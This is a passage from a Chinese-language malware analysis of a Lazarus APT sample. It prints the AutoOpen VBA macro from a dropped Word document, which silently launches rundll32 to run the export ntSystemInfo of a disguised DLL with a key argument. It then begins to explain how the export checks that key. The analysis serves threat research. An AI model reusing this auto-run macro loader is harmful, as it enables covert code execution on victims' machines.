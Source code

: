 打开释放的同名文档

![image-20210305004915232](/pic/sunyu/Lazarus_APT/image-20210305004915232.png)

该文档同样包含宏

```
Sub AutoOpen()
    Dim szAppLine, objShell
    
    szAppLine = "cmd /c start /b C:\Windows\System32\rundll32.exe %HOMEPATH%\videos\localdb.db,ntSystemInfo qBzZN42AyWu6Qatd"
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run szAppLine, 0, False
    Set objShell = Nothing
End Sub
```

再打开文档的同时调用shell 执行cmd /c start /b C:\Windows\System32\rundll32.exe %HOMEPATH%\videos\localdb.db,ntSystemInfo qBzZN42AyWu6Qatd

运行localdb.db的导出函数ntSystemInfo ，其中qBzZN42AyWu6Qatd为参数 用于验证是否为样本调用

## localdb.db导出函数ntSystemInfo 分析

函数首先进行计算，得出一个特定的字符串，然后将计算出的字符串与传入的参数进行对比，如果二者相同则进行下一步，否则退出

